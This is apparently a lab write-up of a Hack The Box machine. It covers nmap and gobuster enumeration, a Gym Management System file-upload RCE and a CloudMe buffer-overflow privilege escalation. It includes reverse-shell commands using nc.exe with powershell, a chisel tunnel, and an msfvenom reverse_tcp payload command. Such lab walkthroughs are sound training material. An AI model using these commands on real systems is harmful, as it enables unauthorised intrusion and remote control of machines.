




**Nmap Scan:**
```
# Nmap 7.92 scan initiated Wed Jan  4 22:55:01 2023 as: nmap -sC -sV -p- -vv -oA full 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received echo-reply ttl 127 (0.073s latency).
Scanned at 2023-01-04 22:55:02 EST for 207s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  4 22:58:29 2023 -- 1 IP address (1 host up) scanned in 208.15 seconds

```

There is a website on port 8080, so I started going thorugh it and meantime I ran a gobuster scan:
```
gobuster dir --url http://10.10.10.198:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x .txt,.php,.html 
```
On the website ```Contact``` Tab I saw this:


I searched online and found an exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48506):

**Vulnerability Description**
Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

**Initial shell Proof**


Since it is a web shell I was limited and couldn't move from the current directory I was in, so I moved ```nc.exe``` to the target machine, and created a reverse shell.
```
Kali Machine:
smbserver.py kali .
nc -nlvp 443

Target Machine:
copy \\10.10.14.2\kali\nc.exe
.\nc.exe 10.10.14.2 443 -e powershell.exe
```

---
# Privilege Escalation

First, I enumerated the machine manually, and while grabbing the ```user.txt``` flag I saw this:

```CloudMe_1112``` looked like something worth checking, and I found online a BOF (Buffer OverFlow) exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48389)

I checked the ```netstat``` to see if it was really listening to this ```CloudMe``` service, and it was listening to two ports:
```
netstat -ano

TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7088
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820
```
**3306:** MySQL Service, which made sense since it was using the PHP site.
**8888:** The port that was associated with ```CloudMe``` service.

To verify it, I grabbed the process ID and found it on the tasklist:
```
tasklist /v | findstr 2820
CloudMe.exe                   2820                            0     37,444 K Unknown 
```

To use this exploit, I needed a tunnel from my Kali to the target machine.
I used [chisel](https://github.com/jpillora/chisel) for this, and this is how I used it:
```
Kali Machine:
One tab:
smbserver.py kali .
Second tab:
./chisel_1.7.7_linux_amd64 server -p 8000 -reverse

Target Machine:
copy \\10.10.14.2\kali\chisel_1.7.7_windows_amd64
.\chisel.exe client 10.10.14.2:8000 R:8888:127.0.0.1:8888
```

Now, to run the exploit I had to do a few modification:

**Generate a payload:**
```
Original Payload: msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python


Modified Payload:
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -b '\x00\x0A\x0D' -f python -v payload


-v flag was used to set the output payload variable name
I replaced the original payload with the modified one, listened to port 1234 on another tab and ran the exploit.
```

And it worked:

